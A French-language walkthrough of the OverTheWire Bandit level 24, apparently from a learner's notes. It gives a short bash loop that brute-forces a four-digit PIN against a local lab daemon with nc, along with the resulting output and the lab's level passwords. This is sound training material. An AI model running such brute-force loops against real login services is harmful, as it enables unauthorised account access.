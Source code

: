 ## Over-The-Wire -writeup-
### Bandit24 (bandit24@bandit.labs.overthewire.org)

---
#### Etape 1

Un daemon écoute sur le port 30002, il demande **le mode de passe actuel, ainsi qu'un code à 4 chiffres**.  
Il faut tester les 10000 combinaisons, **brute-force**.

On va créer un script qui va tester toutes les combinaisons.

`script.sh` sera son nom.

```bash
#!/bin/bash

for i in {0..10000};
do
  echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i";
done | nc localhost 30002 | grep -v Wrong
```

Ici, `grep -v Wrong` est rajouté parce que je sais déjà qu'à chaque tentative, le message d'erreur du daemon commence par **"Wrong"**.  
J'inverse donc le grep avec l'option **-v** *inverse*, pour ne retourner que les messages qui **ne contiennent pas "Wrong"**.

---
#### Etape 2

L'exécution du script.

```console
bandit24@bandit:/tmp/visages$ ./script.sh 
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```

---
Mot de passe: **uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG**
